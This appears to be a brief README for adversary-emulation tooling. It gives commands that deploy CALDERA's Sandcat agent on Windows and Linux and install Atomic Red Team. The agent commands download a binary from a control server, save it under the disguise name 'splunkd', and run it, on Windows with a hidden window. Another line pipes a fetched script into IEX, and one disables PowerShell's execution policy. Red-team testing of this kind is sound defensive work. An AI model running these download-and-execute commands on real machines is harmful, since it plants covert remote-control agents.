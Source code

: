# Presentation
#### CALDERA's windows default agent, written in GoLang. Communicates through the HTTP(S) contact by default.
```sh
$server="http://0.0.0.0";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group windows" -WindowStyle hidden;
```
#### CALDERA's linux default agent, written in GoLang. Communicates through the HTTP(S) contact by default.
```sh
server="http://0.0.0.0";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;chmod +x splunkd;./splunkd -server $server -group linux -v
```
Install Execution Framework and Atomics Folder
```sh
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force
```
## Known issues
```powershell
set-executionpolicy unrestricted
```
